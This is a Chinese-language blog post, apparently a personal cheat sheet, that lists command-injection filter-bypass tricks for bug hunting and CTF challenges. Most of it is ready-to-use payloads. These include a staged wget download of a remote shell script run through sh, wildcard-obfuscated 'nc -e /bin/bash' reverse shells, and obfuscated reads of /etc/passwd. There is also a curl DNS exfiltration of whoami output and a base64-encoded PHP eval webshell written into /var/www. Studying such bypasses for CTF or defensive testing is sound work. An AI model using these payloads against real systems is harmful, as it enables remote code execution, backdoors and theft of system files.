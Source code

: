 ```yaml
---
layout: post
title: RCE Bypass (keep updated)
---
```



> # 本位介绍RCE中Bypass技巧，可用在漏洞挖掘及CTF中。

[TOC]

### 命令连接

```bash

` & || | $()

%0a 换行符

%0d 回车符

;  连续指令

a=l;b=s;$a$b 局部变量

curl `whoami`xxxx.xxx DNS管道解析
```

### some Trick

```bash

1>wget\

1>xxx.com.\

1>com\

1>-O\

1>she\

1>ll.p\

1>p

ls -t>a

sh a

```

`ls -t`是按照时间顺排序

http://2130706433  IP转10进制

http://0x7F000001  IP转16进制

转化网址：http://www.msxindl.com/tools/ip/ip_num.asp

### 通配符

```bash

/???/n? -e /???/b??h 127.0.0.1 6666

bin/nc -e /bin/bash 127.0.0.1 6666

/???/c?t /?t?/p??swd

\*  代表『 0 个到无穷多个』任意字符

?  代表『一定有一个』任意字符

[ ]  同样代表『一定有一个在括号内』的字符(非任意字符)。例如 [abcd] 代表『一定有一个字符， 可能是 a, b, c, d 这四个任何一个』

[ - ]  若有减号在中括号内时，代表『在编码顺序内的所有字符』。例如 [0-9] 代表 0 到 9 之间的所有数字，因为数字的语系编码是连续的！

[^ ]  若中括号内的第一个字符为指数符号 (^) ，那表示『反向选择』，例如 [^abc] 代表 一定有一个字符，只要是非 a, b, c 的其他字符就接受的意思
```


### cat flag可转换为：
```bash

cat fla[a-z]

cat fl[a]g

cat f``lag

c’a’t /f’la’g

cat fl??

cat f*

cat $(echo -n "base64加密的flag" | base64-d)

cat `echo -n "base64加密的flag" | base64-d`

c\at /fl\ag

head /`ls /|grep 'fla'

a=c;b=at;c=fl;d=ag;$a$b $c$d

```





### 利用历史执行记录来bypass

```bash

root@kali$ cat

root@kali$ fl

root@kali$ ag

root@kali$ history

1.cat

2.fl

3.ag

root@kali$ !1!2!3

flag{ea3y_bypa3s_inj3ct1on}

```





###过滤空格的时候



```bash
cat${IFS}flag

cat$IFS$9flag

<

%09 (需要php环境)

``
```

### 命令终止符

```
%00 %20
```

## 其他绕过
```bash
cat$u /etc$u/passwd$u

/?in/cat /?tc/p?sswd

/'b'i'n'/'c'a't' /'e't'c'/'p'a's's'w'd

/"b"i"n"/"w"h"i"c"h" "n"c

/b\i\n/w\h\i\c\h n\c
```

### 写文件

Windows

```
echo 48 65 6C 6C 6F 2C 57 6F 72 6C 64 21 >hex.txt

生成 hex.txt，机器码对应的内容是 Hallo World!

certutil -decodehex hex.txt bin.txt

也可以base64解码

certutil -decode hex.txt bin.txt
```

Linux
```bash
echo -e "\x61">1.txt
```

将payload加密成base64 例如 `echo '<?php @eval($_REQUEST[c]);?>'>>/var/www/c.php`
```shell
`echo${IFS}"ZWNobyAnPD9waHAgQGV2YWwoJF9SRVFVRVNUWzEwMDg2XSk7Pz4nPj4vdmFyL3d3dy9zaHRlcm0vcmVzb3VyY2VzL3FyY29kZS9sYmo3Ny5waHAK"|base64${IFS}-D|bash`
```